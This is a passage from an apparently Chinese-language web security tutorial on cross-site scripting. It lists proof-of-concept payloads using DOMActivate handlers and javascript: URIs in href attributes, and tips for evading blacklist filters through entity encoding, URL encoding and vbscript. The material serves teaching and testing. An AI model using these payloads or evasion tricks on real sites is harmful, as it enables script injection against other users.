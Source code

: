     ";document.body.addEventListener("DOMActivate",alert(1))//
    ";document.body.addEventListener("DOMActivate",prompt(1))//
    ";document.body.addEventListener("DOMActivate",confirm(1))//
[/code]



这里是同种类的事件处理函数：

![复制代码](https://common.cnblogs.com/images/copycode.gif)

[code]

    DOMAttrModified
    DOMCharacterDataModified
    DOMFocusIn
    DOMFocusOut
    DOMMouseScroll
    DOMNodeInserted
    DOMNodeInsertedIntoDocument
    DOMNodeRemoved
    DOMNodeRemovedFromDocument
    DOMSubtreeModified
[/code]

![复制代码](https://common.cnblogs.com/images/copycode.gif)



**href上下文：**

另外一个你经常会遇到的上下文是href标签中的输入：

[code]

    <a href=”Userinput”>Click</a>
[/code]



这种情况下，我们只需直接插入JavaScript，用户点击就会执行  
javascript:alert(1)//  
完整的语句为：

[code]

    <a href=”javascript:alert(1)//”>Click</a>
[/code]



大多数你遇到的黑名单过滤器都回删掉JavaScript关键字或者查找冒号后面的javaScript。这种情况下你可以使用HTML实体编码和URL编码来绕过黑名单，href标签会自动解码实体。如果还是不行，你可以试试vbscript，该伪协议在IE10和data
URI中都能支持。

**Javascript变种：**

下面是几个JavaScript变种：

[code]
